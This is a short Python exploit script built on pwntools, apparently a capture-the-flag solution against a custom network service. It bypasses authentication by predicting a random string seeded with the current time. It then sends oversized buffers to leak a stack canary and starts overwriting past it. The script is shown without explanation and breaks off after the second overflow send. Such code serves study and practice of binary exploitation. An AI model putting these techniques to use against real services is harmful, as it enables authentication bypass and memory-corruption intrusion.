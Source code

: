 ```python
plain=b''
session=b''
def genarate_rand_string(size=0, data=0):
    global plain
    pl=p32(0x70303070)
    pl+=p32(opcode[1])
    pl+=p16(size)
    pl+=b'A'*100
    io.send(pl)
    glibc.srand(glibc.time(None))
    for i in range(32):
        plain+=p8(glibc.rand() & 0xff)    
    print(plain.hex())
    data= io.recv()
    return data
    
def authenticate(size=0):
    global session
    pl=p32(0x70303070)
    pl+=p32(opcode[2])
    pl+=p16(0x100)
    pl+=plain
    io.send(pl)
    data= io.recv()
    session=io.recv()
    print(data)
    return session
     
genarate_rand_string()  
a=authenticate()
# print(a)
# pause()
# printdata(0xfff, b'A'*0xfff)
# print(io.recv())
# data=io.recv(0x1000)
# heap=u64(data[4:10].ljust(8, b'\0')) - 0x4ba0
# print(hex(heap))
    
session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1)
buf+=b'moonlit_embrace\0'
buf+=(778+1-len(b'moonlit_embrace\0'))*b'A'


io.send(buf)
data = io.recv()
leak=u64(b'\0'+data[265:])
log.info("canary: " + hex(leak))

session=a
buf=session
buf+=p32(0)
buf+=p16(0x30a+1+7+8)
buf+=b'moonlit_embrace\0'
buf+=(778+8-len(b'moonlit_embrace'))*b'A'
buf+=data[265:]
buf+=b'A'*8

io.send(buf)

data = io.recv()
```